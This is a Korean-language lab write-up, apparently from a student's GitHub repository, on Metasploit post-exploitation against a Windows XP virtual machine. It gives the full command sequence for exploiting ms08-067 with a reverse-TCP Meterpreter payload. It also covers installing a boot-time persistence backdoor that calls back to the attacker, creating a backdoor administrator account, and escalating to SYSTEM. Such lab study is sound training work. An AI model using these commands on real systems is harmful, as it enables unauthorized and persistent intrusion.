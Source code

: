 # 실습과정

### 1. Persistence
Meterpreter는 Persistence를 이용하여 시스템에 BackDoor를 남기고 지속적으로 드나들 수 있는 통로를 만들 수 있다.


일단 Kali에서 root의 권한으로 CMD창을 열고  
**msfconsole** 을 입력해 msfconsole을 실행한다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B51.png)

그 다음은 우리가 공격할 대상인 WindowXp의 취약점인 ms08-067을 통해 공격을 할 것이므로 이를 설정해 놓는다.  
**search ms08-067**  
**use exploit windows/smb/ms08_067_netapi**  
**set payload windows/meterpreter/reverse_tcp_allports**  
**show options**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%8B%A4%EC%8A%B52%20%EA%B8%B0%EB%B3%B8%20%EC%84%A4%EC%A0%95.png)

이후 나머지 RHOST와 LHOST를 설정한다.
**set RHOST (window XP IP)**  
**set LHOST (Kali IP)**  
**run**  
을 실행한다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/%EC%B9%A8%ED%88%AC%20%EC%99%84%EB%A3%8C.png)  
이렇게하면 우리는 성공적으로 window Xp에 들어올 수 있게 된다.
그다음 우리는 우리의 목표인 Persistence를 얻기위해 다음의 작업을 진행한다.  
**run persistence -h**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%EC%97%90%20%EB%8C%80%ED%95%9C%20%EC%84%A4%EB%AA%85.png)  
위의 사진에서 보다 싶이 여러 옵션을 통해 persistence를 설정할 수 있다.
우리는 아래의 명령어를 통해 시스템이 부팅이 되면 자동적으로 실행, 연결 시도 간격을 10초로 설정해서 persistence를 작업한다.  
**run persistence -A -P windows/meterpreter/reverse_tcp_allports -X -i 10 -p 5555 -r (Kali IP)**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Persistence%EC%98%B5%EC%85%98%20%EC%84%A4%EC%A0%95.png)  
설정이 완료되었다면 다음과 같은 형상이 나타나게 된다.
결과를 보면 첫번째 [+]를 보면 공격대상에 해당경로에 Persistence Script(Back Door)가 쓰여있는 것을 볼 수 있다.

그렇다면 우리는 Window Xp에서 해당 파일이 있는지 확인해보면 다음과 같다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%EC%97%90%20Script%ED%8C%8C%EC%9D%BC%20%EC%83%9D%EC%84%B1.png)  
실제 Window Xp의 C:\WINDOWS\TEMP의 경로에 해당파일이 생성되어있는 것을 알 수 있었다.

그리고 handler가 싷행되었고 마지막 [+]를 보면 BacckDoor가 자동적으로 실행시키기 위한 install key가 생성되었다고 나와있다.
이는 우리가 옵션으로 생성한 결과이므로 이를 Window Xp의 실제 register에서 보면 다음과 같은 결과를 볼 수 있다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/BackDoor%EB%A5%BC%20%EC%9C%84%ED%95%9C%20install%20key.png)  다음과 같은 파일이 설정되고 있는 것을 볼 수 있다.
또한 Kali에서 session이 맺어진것으로도 확인할 수 있다.
이 세션은 Window Xp가 종료되면 자동적으로 사라지고 실행되면 자동적으로 맺어진다.
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/Persistence/Window%20Xp%EC%A2%85%EB%A3%8C%EC%8B%9C%20%EC%84%B8%EC%85%98%EC%83%81%ED%83%9C.png)  

### 2. BackDoor 계정만들기
이제 우리는 BackDoor를 할 수 있는 계정을 만든다음에 관리자의 권한을 부여해보는 연습을 해볼 것이다.
WindowXp에서 공격을 수행하고 난 이후의 시점부터 볼 것이다.  
다음의 명령어를 통해 미터프리터 세션을 열고 shell을 열어준다.  
**shell**
**net user (원하는 이름) (원하는 비밀번호) /add**  
**net user**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%EC%83%9D%EC%84%B1.png)  
을 생성하고 이를 window Xp에서 보면 다음과 같은 결과가 나타나게 된다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%ED%99%95%EC%9D%B8.png)  
또는 Kali에서 **net user** 명령어를 통해 확인이 가능하다.  

그러나 사진에서 보다싶이 제한된 권한을 가지고 있다.  
이를 adminstorator의 권한으로 올려주기 위해 다음과 같은 작업을 한다.  
**net localgroup administrators (계정이름) /add**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EA%B3%84%EC%A0%95%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9.png)  
를 하고 다시 window에서 보면 다음과 같은 결과가 나타날 것이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%EC%97%90%EC%84%9C%20%EA%B6%8C%ED%95%9C%EC%83%81%EC%8A%B9%ED%99%95%EC%9D%B8.png)  

만약 계정을 삭제하고 싶다면 다음의 명령어를 이용한다.
**net user (계정이름) (계정 비밀번호) /delete**  

**exit**  
**getsystem**  
**getuid**

이 명령어를 통해 시스템 권한과 권한이 얻어진것을 확인을 하고
다음의 명령어를 통해 시스템을 재부팅해본다.
**ps**  
**migrate (explorer.exe 필자는 492)**  
**reboot**  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/backDoor%20%EC%83%9D%EC%84%B1%ED%9B%84%20%EC%A2%85%EB%A3%8C%20%EC%A4%80%EB%B9%84.png)  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/Window%20%EC%9B%90%EA%B2%A9%EC%A2%85%EB%A3%8C.png)  
를 하면 windowXp가 정상적으로 재부팅이 되는 것을 볼 수 있다.
이후 시스템을 종료하고 다시 window에서 로그인화면을 보면 2가지의 계정이 생겼을 겻이다.  
![img](https://github.com/arad4228/2021_winter/blob/main/Kali_linux/Post%20Exploitation/BackDoor/BackDoor%20%EA%B3%84%EC%A0%95%EB%A7%8C%EB%93%A4%EA%B8%B0/WindowXp%EB%A1%9C%EA%B7%B8%EC%9D%B8%20%ED%99%94%EB%A9%B4.png)  

